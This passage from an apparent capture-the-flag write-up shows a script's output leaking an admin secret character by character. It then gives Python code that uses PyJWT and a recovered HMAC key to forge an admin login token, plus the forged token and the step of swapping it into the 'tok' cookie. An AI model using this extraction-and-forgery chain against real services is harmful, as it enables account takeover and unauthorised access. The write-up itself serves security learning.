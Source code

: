 ```shell
$ python get_admin_secret.py
T_______________________________
TQ______________________________
TQ9_____________________________
TQ9m____________________________
# --snip--
TQ9mpDdETkLCarLuyggyK8eDvJYES___
TQ9mpDdETkLCarLuyggyK8eDvJYESL__
TQ9mpDdETkLCarLuyggyK8eDvJYESLj_
TQ9mpDdETkLCarLuyggyK8eDvJYESLjA
================================
Full admin secret: TQ9mpDdETkLCarLuyggyK8eDvJYESLjA
NervousHiccups uid: 16498
```

And there's both of the pieces of information we need!
I just used PyJWT again to forge the login token since it worked well for task 6:

```python
import datetime

import jwt

HMAC_KEY = "xqDxTAQBYw4hEsK8ud3ASezUM4IohDW1"

if __name__ == "__main__":
    now = datetime.datetime.now(tz=datetime.timezone.utc)

    admin_jwt = {
        "iat": now,
        "exp": now + datetime.timedelta(days=365),
        "sec": "TQ9mpDdETkLCarLuyggyK8eDvJYESLjA",
        "uid": 16498
    }
    
    print(jwt.encode(admin_jwt, HMAC_KEY, algorithm='HS256'))
```

And now, the moment we've been waiting for:

```shell
$ python forge_admin_token.py
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjU4Njk2NzYsImV4cCI6MTY5NzQwNTY3Niwic2VjIjoiVFE5bXBEZEVUa0xDYXJMdXlnZ3lLOGVEdkpZRVNMakEiLCJ1aWQiOjE2NDk4fQ.CIU10maeb-jW5F5KSSUTyF_VsZl-FcYTVnhZu7zUMDE
```

Nice! Now we can replace the value of the `tok` cookie with this value and poke around the admin page:

<div align="center">